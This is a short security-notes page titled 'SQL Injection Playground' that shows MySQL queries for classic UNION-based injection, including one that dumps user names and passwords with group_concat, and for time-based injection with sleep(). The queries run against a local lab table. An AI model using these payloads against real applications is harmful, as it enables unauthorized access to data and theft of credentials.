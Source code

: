 # SQL Injection Playground

## Classic SQL Injection

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-59-39.png)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-03-00.png)



## Time Based SQL Injection

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-53-52.png)

